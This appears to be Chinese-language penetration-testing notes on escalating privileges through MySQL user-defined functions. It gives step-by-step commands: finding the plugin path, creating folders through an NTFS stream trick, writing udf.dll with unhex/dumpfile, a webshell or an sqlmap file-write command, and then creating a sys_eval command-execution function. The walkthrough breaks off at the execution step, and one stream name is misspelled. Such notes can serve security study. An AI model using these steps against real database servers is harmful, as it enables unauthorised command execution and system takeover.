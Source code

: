 ## **数据库提权**

### **mysql**

#### **udf** 

udf (user defined function) : 用户定义函数。通过mysql的插件自定义一个命令执行函数

udf.dll  mysqludf的动态链接库文件 		   windows2003 ： C:\windows\



mysql5.1 : mysql的安装目录\lib\plugin\

- 利用流程

1. 判断mysql的版本 

select version();

1. 获取mysql的安装路径

show variables like "%general%";

show variables like "%plugin%";

1. 上传udf.dll 到  mysql的安装目录\lib\plugin\

  问题：如果mysql没有 lib \ plugin 文件夹怎么办？

 使用index_allocation流创建文件夹 

 select xxx into dumpfile 'C:\\phpstudy\\mysql\\lib::$INDEX_ALLOCTION'

select xxx into dumpfile 'C:\\phpstudy\\mysql\\lib\\plugin::$INDEX_ALLOCTION'

问题： into outfile   /   into dumpfile 

into outfile 可以导出多行数据 ，而 dumpfile 只能导出一行

into outfile 写文件时会有数据转换，而dumpfile 是保持原有格式

怎么上传 ？

-  select unhex( ‘ udf 的 hex 值’ ) into dumpfile 'C:\\phpstudy\\mysql\\lib\\plugin\\udf.dll'
- 通过webshell上传
- 通过sqlmap上传

sqlmap -u target_url --file_write "/Users/demo/udf/udf.dll" --file_dest="C:\\phpstudy\\mysql\\lib\\plugin\\udf.dll"

- select load_file（"/Users/demo/udf/udf.dll"）into dumpfile "C:\\phpstudy\\mysql\\lib\\plugin\\udf.dll";

1. 创建命令执行函数	

CREATE FUNCTION sys_eval RETURNS string SONAME 'udf.dll';

(使用 lib\plugin 目录中的 udf.dll 文件创建一个 名字叫sys_eval 的函数)

1. 执行命令
